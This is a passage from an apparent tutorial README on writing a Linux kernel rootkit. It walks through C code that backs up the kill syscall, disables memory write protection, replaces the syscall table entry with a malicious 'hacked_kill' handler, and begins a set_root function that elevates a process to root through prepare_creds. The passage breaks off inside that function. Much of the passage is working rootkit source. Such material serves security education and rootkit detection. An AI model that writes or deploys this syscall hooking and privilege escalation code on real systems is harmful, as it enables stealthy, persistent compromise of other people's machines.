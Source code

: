 iii) Let's store the original syscall
```c
orig_kill = (tt_syscall)__sys_call_table[__NR_kill];
```
As, ***__NR_kill*** is the name of kill syscall (or, sys_kill) in **syscall table** and the function type of orig_kill is _`tt_syscall`_.\
iv) Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/9134a4d04bf6c0d347a22503b203bab9098b8eea/kernel_src/reveng_rtkit.c#L311), ignore those lines with **__NR_getdents64** (line no.: 310 and 315). I will explain **__NR_getdents64** seperately after completing this section.

Now, we stored the original syscall, rather backuped the original syscall, as this would be used later to revert back to normal syscall workflow while rmmod'ing our LKM aka. rootkit (in this scenario).\
So lets unprotect the memory and edit the syscall table and then revert back the memory protection as it was.
```c
orig_kill = (tt_syscall)__sys_call_table[__NR_kill];

unprotect_memory();

__sys_call_table[__NR_kill] = (unsigned long) hacked_kill;

protect_memory();
```
You might be thinking, what the heck is hacked_kill?\
It is actually the function (mal. syscall) that we created, which I will introduce you in the next step.\
v) So, now what ?\
Remember that? **providing rootshell** portion earlier in this blog (if not, please go and [visit](https://github.com/reveng007/reveng_rtkit/blob/main/Detailed_blog_README.md#part6-providing-rootshell-to-the-attacker), it's obvious to forget as this blog is pretty long, don't be harsh on yourself! 🤗)\
We will be implementing that _getting rootshell_ mechanism via _kill syscall_.
```c
static void set_root(void)
{
	/*
	 * pwd: /lib/modules/5.11.0-49-generic/build/include/linux/cred.h
	 * 
	 * struct cred {
	 *      ...
	 *      kuid_t          uid;            // real UID of the task
	 *      kgid_t          gid;            // real GID of the task 
	 *      kuid_t          suid;           // saved UID of the task
	 *      kgid_t          sgid;           // saved GID of the task
	 *      kuid_t          euid;           // effective UID of the task
	 *      kgid_t          egid;           // effective GID of the task
	 *      kuid_t          fsuid;          // UID for VFS ops
	 *      kgid_t          fsgid;          // GID for VFS ops
	 *      ...
	 * };
	 * 
	 * ...
	 * extern struct cred *prepare_creds(void);     // returns current credentials of the process
	 * ...
	 * extern int commit_creds(struct cred *);      // For setting modified values of ids to cred structure
	 */

	 struct cred *root = prepare_creds();

	if (root == NULL)
	{
 		return;
	}
```